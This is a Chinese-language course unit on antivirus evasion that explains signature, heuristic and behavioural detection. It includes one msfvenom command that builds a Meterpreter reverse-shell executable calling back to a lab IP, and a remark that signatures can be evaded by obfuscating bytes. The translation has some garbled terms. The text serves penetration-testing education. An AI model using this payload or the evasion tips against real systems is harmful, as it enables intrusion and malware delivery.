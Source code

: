 # 15-Antivirus Evasion

在本单元中，我们将讨论防病毒软件的用途，并概述它在大多数公司中的部署方式。我们将检查用于检测恶意软件的各种方法，并探索一些可用的工具，这些工具将允许我们绕过目标计算机上的防病毒软件。

## 什么是杀毒软件

防病毒（AV）是一种旨在防止、检测和删除恶意软件的应用程序。它最初的设计目的是简单地删除计算机病毒。然而，随着其他类型恶意软件的发展，杀毒软件现在通常包括额外的保护，如防火墙、网站扫描仪等。

## 检测恶意代码的方法

为了证明各种杀毒产品的有效性，我们将从扫描一个流行的MeterMeter有效负载开始。使用msfvenom，我们将生成一个包含有效负载的标准可移植可执行文件，在本例中是一个简单的TCP反向shell。

可移植可执行文件（PE）文件格式在Windows操作系统上用于可执行文件和目标文件。PE格式表示一种Windows数据结构，它详细说明了windowsloader406管理包装好的可执行代码所需的信息，包括所需的动态库、API导入和导出表等。

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.4 LPORT=4444 -f exe > binary.exe
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606271551541-d8658f92-f3ed-47f5-be0b-cd71a3a75a41.png)

接下来，我们将对这个可执行文件运行病毒扫描。我们不需要在本地机器上安装大量的防病毒应用程序，而是可以将我们的文件上传到VirusTotal，它将扫描它以确定各种AV产品的检测率。

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606271703131-ec02d83e-d44f-44ca-bf01-6ac78848e614.png)

几乎所有的杀毒软件厂商都可以检测出来，接下来我们了解一下杀毒软件的检测技术。

### 基于特征的检测

防病毒签名是恶意软件中唯一标识它的连续字节序列。基于特征码的防病毒检测大多被认为是黑名单技术。换言之，文件系统被扫描为已知的恶意软件签名，如果检测到任何恶意软件签名，则会隔离有问题的文件。这意味着，有了正确的工具，我们可以很容易地绕过依赖于这种检测方法的杀毒软件。具体地说，我们可以通过简单地更改或混淆已知恶意文件的内容来绕过基于签名的检测，从而破坏标识字节序列（或签名）。

根据测试的防病毒软件的类型和质量，有时我们可以通过简单地将二进制文件中的几个无害字符串从大写改为小写来绕过防病毒软件。然而，并非每一个案例都如此简单。

由于反病毒软件供应商使用不同的特征码和专有技术来检测恶意软件，而且每个供应商都在不断更新他们的数据库，因此通常很难想出一个全面的防病毒规避解决方案。通常，此过程基于测试环境中的试错方法。

因此，在渗透测试期间，在考虑绕过策略之前，我们应该确定部署的防病毒软件的存在、类型和版本。如果客户端网络或系统实施了防病毒软件，我们应该收集尽可能多的信息，并在实验室环境中复制配置，以便在将文件上载到目标计算机之前进行AV旁路测试。

### 启发式和行为检测

为了解决基于特征码检测的缺陷，反病毒制造商引入了额外的检测方法，以提高产品的有效性。

基于启发式的检测是依赖于各种规则和算法来确定动作是否被视为恶意的检测方法。这通常是通过单步执行二进制文件的指令集或尝试反编译然后分析源代码来实现的。其目的是寻找被认为是恶意的各种模式和程序调用（与简单的字节序列相反）。

或者，基于行为的检测动态地分析二进制文件的行为。这通常是通过在模拟环境（如小型虚拟机）中执行相关文件并查找被认为是恶意的行为或操作来实现的。

由于这些技术不需要恶意软件签名，因此可以更有效地识别未知恶意软件或已知恶意软件的变体。考虑到反病毒制造商在启发式和行为检测方面使用不同的实现，每个防病毒产品在被认为是恶意的代码方面会有所不同。

值得注意的是，大多数杀毒软件开发人员使用这些检测方法的组合来实现更高的检测率。

## 绕过防病毒检测
